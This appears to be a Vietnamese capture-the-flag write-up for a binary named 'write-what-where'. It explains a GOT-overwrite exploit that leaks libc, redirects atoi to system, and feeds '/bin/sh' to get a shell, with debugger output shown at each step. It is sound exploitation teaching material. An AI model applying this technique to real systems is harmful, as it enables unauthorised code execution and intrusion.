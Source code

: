# Phân tích file

```python
write-what-where: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=ee124ada64e961774c24b669bbe4aab30ef7f0e6, for GNU/Linux 4.4.0, not stripped
```

```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

- Ta có thể overwrite got do Partial RELRO

# Reverse file

- Main:
    
    ```python
    int __cdecl __noreturn main(int argc, const char **argv, const char **envp)
    {
      _DWORD *v3; // [rsp+0h] [rbp-30h]
      int buf; // [rsp+Ch] [rbp-24h] BYREF
      char nptr[24]; // [rsp+10h] [rbp-20h] BYREF
      unsigned __int64 v6; // [rsp+28h] [rbp-8h]
    
      v6 = __readfsqword(0x28u);
      init(argc, argv, envp);
      puts("write");
      puts("what?");
      read(0, &buf, 4uLL);
      puts("where?");
      read(0, nptr, 9uLL);
      v3 = (_DWORD *)atoi(nptr);
      *v3 = buf;
      exit(0);
    }
    ```
    
- Init:
    
    ```python
    int init()
    {
      setvbuf(stdin, 0LL, 2, 0LL);
      return setvbuf(_bss_start, 0LL, 2, 0LL);
    }
    ```
    
    - Bài này cho phép ta nhập 4 byte vào 1 địa chỉ bất kì.

# Exploit

- Mình sẽ write got_exit về puts("write");(không gọi init) để mình có thể write got_setvbuf thành plt_puts và stdin thành got_puts sau khi ghi xong mình sẽ write got_exit về lại đầu main để nó chạy qua hàm init và leak libc cho mình.
- Do mỗi lần chỉ ghi được 4 byte nên mình có thể ghi 2 lần 1 lần 4 bytes đầu rồi lần 2 là 4 bytes sau.
- Sau khi leak được libc mình sẽ write lại stdin để không bị lỗi rồi sau đó tính system và write 4 bytes cuối của atoi thành 4 bytes cuối của system lúc này mình chỉ cần nhập input là "/bin/sh\x00" thì khi đến atoi nó sẽ là system("/bin/sh") và get shell.
    
- Write got_exit
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011ca (main+33) ◂— lea    rax, [rip + 0xe33]
    ```
    
- Write 4 bytes đầu setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x7fff00401030
    ```
    
- Write 4 bytes sau setbuf
    
    ```python
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    ```
    
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007fff00404018
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x0000000000404018
    ```
    
- Write exit về lại main
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x4011a9 (main) ◂— push   rbp
    ```
    
- Leak libc
    
    ```python
    ► 0x401183 <init+29>    call   setvbuf@plt <setvbuf@plt>
            stream: 0x404018 (puts@got.plt) —▸ 0x7ffff7e4e5a0 (puts) ◂— endbr64
            buf: 0x0
            modes: 0x2
            n: 0x0
    
    pwndbg> got
    
    GOT protection: Partial RELRO | GOT functions: 5
    [0x404028] setvbuf@GLIBC_2.2.5 -> 0x401030 (puts@plt) ◂— jmp    qword ptr [rip + 0x2fe2]
    
    ```
    
    ```python
    [*] Puts: 0x7ffff7e4e5a0
    [*] libc_base: 0x7ffff7dc7000
    [*] system: 0x7ffff7e1c410
    ```
    
- Sau khi leak libc xong mình sẽ write lại giá trị cho stdin vì nếu bị thay đổi sẽ ảnh hưởng không cho ta lên shell được
- Write 4 bytes đầu stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00000000f7fb2980
    ```
    
- Write 4 bytes sau stdin
    
    ```python
    0x404060 <stdin@GLIBC_2.2.5>:   0x00007ffff7fb2980
    ```
    
- Write exit về start để chương trình setup lại mọi thứ để không bị lỗi.
    
    ```python
    [0x404038] exit@GLIBC_2.2.5 -> 0x401080 (_start) ◂— endbr64
    ```
    
- Write 4 bytes đầu của atoi thành 4 byte đầu của system
    
    ```python
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Nhập input "/bin/sh\x00" và lên shell
    
    ```python
    ► 0x40122a <main+129>    call   atoi@plt <atoi@plt>
            nptr: 0x7fffffffdd50 ◂— 0x68732f6e69622f /* '/bin/sh' */
    
    pwndbg> got
    [0x404030] atoi@GLIBC_2.2.5 -> 0x7ffff7e1c410 (system) ◂— endbr64
    ```
    
- Shell
    
    ```python
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    [*] Puts: 0x7fb7129f29d0
    [*] libc_base: 0x7fb712972000
    [*] system: 0x7fb7129c1a60
    [*] stdin: 0x7fb712b529a0
    [*] Switching to interactive mode
    $
    ```
